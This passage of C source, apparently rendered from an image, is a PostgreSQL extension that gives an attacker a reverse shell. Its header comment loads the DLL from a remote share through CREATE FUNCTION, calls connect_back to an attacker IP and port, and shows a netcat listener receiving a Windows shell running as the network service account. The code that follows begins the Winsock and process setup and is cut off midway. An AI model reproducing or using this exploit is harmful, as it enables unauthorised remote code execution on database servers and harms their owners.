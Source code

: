 ```c
CREATE FUNCTION connect_back(text, integer) RETURNS void
AS $$\\vmware-host\Shared Folders\research\DemoExtension.dll$$, $$connect_back$$
LANGUAGE C STRICT;
That loads the DLL from remote, via a share! ;-)
2. Execute it:
--------------
SELECT connect_back('172.16.175.1', 1234);
3. On the 'attackers' machine:
------------------------------
saturn:~ mr_me$ nc -lv 1234
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\Program Files\PostgreSQL\9.2\data>whoami
whoami
nt authority\network service
C:\Program Files\PostgreSQL\9.2\data>
4. Now, if you want to remove it, simply: 
-----------------------------------------
DROP FUNCTION connect_back(text, integer);
References:
===========
1. http://blog.2ndquadrant.com/compiling-postgresql-extensions-visual-studio-windows/
License:
========
This code is licensed under the Creative Commons Attribution-Non‑Commercial 4.0 International License.
*/
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <stdio.h>
#include <winsock2.h>
#include "utils/builtins.h"
#pragma comment(lib, "ws2_32")

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

/* Add a prototype marked PGDLLEXPORT */
PGDLLEXPORT Datum connect_back(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(connect_back);

WSADATA wsaData;
SOCKET s1;
struct sockaddr_in hax;
char ip_addr[16];
STARTUPINFO sui;
PROCESS_INFORMATION pi;

Datum
connect_back(PG_FUNCTION_ARGS)
{

    /* convert C string to text pointer */
    #define GET_TEXT(cstrp) \
    DatumGetTextP(DirectFunctionCall1(textin, CStringGetDatum(cstrp)))

    /* convert text pointer to C string */
    #define GET_STR(textp) \
    DatumGetCString(DirectFunctionCall1(textout, PointerGetDatum(textp)))
```
